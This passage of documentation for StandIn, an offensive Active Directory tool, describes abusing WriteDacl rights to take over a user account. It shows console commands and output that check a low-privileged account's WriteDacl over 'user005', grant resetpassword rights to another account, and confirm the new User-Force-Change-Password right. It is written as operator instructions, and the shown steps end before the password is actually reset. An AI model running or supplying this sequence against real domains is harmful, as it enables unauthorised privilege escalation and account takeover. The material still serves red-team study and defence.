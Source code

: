 ### Set object password

#### Use Case

> *If the operator has `User-Force-Change-Password` permissions over a user object they can change the password for that user account without knowing the current password. This action is destructive as the user will no longer be able to authenticate which may raise alarm bells.*

#### Syntax

Set the resolved object's password without knowing the current password.

```
C:\> whoami
main\s4uuser

C:\> StandIn.exe --object "samaccountname=user005" --access --ntaccount "MAIN\lowPrivButMachineAccess"

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\Domain Admins
    |_ Group : MAIN\Domain Admins

[+] Object access rules

[+] Identity --> MAIN\lowPrivButMachineAccess
    |_ Type       : Allow
    |_ Permission : WriteDacl
    |_ Object     : ANY

C:\> StandIn.exe --object "samaccountname=user005" --grant "MAIN\s4uuser" --type resetpassword

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\Domain Admins
    |_ Group : MAIN\Domain Admins

[+] Set object access rules
    |_ Success, added resetpassword privileges to object for MAIN\s4uuser

C:\> StandIn.exe --object "samaccountname=user005" --access --ntaccount "MAIN\s4uUser"

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\Domain Admins
    |_ Group : MAIN\Domain Admins

[+] Object access rules

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : User-Force-Change-Password

```